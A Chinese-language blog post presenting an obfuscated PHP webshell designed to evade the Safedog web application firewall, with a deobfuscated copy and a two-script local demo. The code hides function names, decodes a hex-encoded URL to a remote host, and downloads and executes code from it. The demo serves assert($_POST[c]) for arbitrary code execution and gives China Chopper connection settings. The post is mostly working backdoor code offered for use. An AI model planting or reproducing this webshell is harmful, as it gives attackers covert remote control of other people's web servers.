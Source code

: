 ```yaml
---
title: php webshell
author: tank96a
layout: post
categories:
  - article
tags:
  - php
  - webshell
---
```


  研究了一下过狗原理，自己写了个一句话。

过狗php大马一枚，源码如下：
{% raw %}
<pre>
<?php define('iphp','oday');define('T','H*');define('A','call');define('B','user');define('C','func');define('D','create');define('E','function');define('F','file');define('F1','get');define('F2','contents');define('P','pack');$p = P;$call = sprintf('%s_%s_%s',A,B,C);$create = sprintf('%s_%s',D,E);$file = sprintf('%s_%s_%s',F,F1,F2);$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');$call($create(null,$p(T,$file($p(T,join(null,$t))))));?>
</pre>
{% endraw %}

有人翻译如下，省了我不少事。
{% highlight php %}
<?php 
define('iphp','oday');
define('T','H*');
define('A','call');
define('B','user');
define('C','func');
define('D','create');
define('E','function');
define('F','file');
define('F1','get');
define('F2','contents');
define('P','pack');
$p = P;  //pack
$call = sprintf('%s_%s_%s',A,B,C); //call_user_func
$create = sprintf('%s_%s',D,E);    //create_function
$file = sprintf('%s_%s_%s',F,F1,F2); //file_get_contents 远程文件读取
$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');
//$call($create(null,$p(T,$file($p(T,join(null,$t))))));
call_user_func(create_function(null,pack('H*',file_get_contents(pack('H*',join(null,$t))))));
?>
{% endhighlight %}

{% raw %}
<pre>
写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c
</pre>
{% endraw %}

两个脚本代码如下：
{% highlight php %}
<?php 
//webshell.php
//echo pack('H*', base_convert('0011000000111010', 2, 16));
//echo pack('H*', '61737365727428245f504f53545b635d293b');
//call_user_func(create_function(null,'echo (1+2);'));
//call_user_func(create_function(null,'assert($_POST[c]);'));

$url='http://localhost/DebugPHP/getcode.php?call=code';
call_user_func(create_function(null,pack('H*',file_get_contents($url))));
?>

<?php
//getcode.php    
//assert($_POST[c]);
$cmd=$_GET['call'];
if ($cmd=='code')  
   echo sprintf('61737365727428245f504f53545b635d293b');
?>
{% endhighlight %}

php函数参考网站：
[create_function](http://php.net/manual/en/function.create-function.php)
[pack](http://php.net/manual/en/function.pack.php)

